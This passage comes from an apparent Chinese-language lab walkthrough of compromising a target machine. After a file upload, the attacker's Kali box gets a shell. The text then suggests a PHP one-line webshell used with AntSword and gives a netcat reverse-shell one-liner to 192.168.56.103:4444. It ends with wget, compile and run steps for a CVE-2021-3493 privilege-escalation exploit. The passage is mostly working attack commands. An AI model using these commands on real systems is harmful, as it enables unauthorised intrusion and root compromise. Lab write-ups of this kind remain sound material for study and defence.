 [![](assets/1699406763-fc59422a7edc758fdd866c81ab972596.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231107103933-e271d624-7d16-1.png)

上传成功后，kali成功拿到shell

[![](assets/1699406763-d281de7f126e899d32cac628ba44a845.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231107103956-f007e9c2-7d16-1.png)

这里还可以上传一个php一句话木马，使用蚁剑进行连接，由于蚁剑的终端不稳定，故可以在终端上执行反弹shell

```plain
"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.56.103 4444 >/tmp/f"
```

## 提权

### CVE-2021-3493提权

这里可以使用[CVE-2021-3493](https://github.com/briskets/CVE-2021-3493)进行提权

```plain
cd /tmp
wget http://192.168.56.105:8000/cve-2021-3493.c
gcc cve-2021-3493.c -o exp
chmod 777 exp
./exp
```
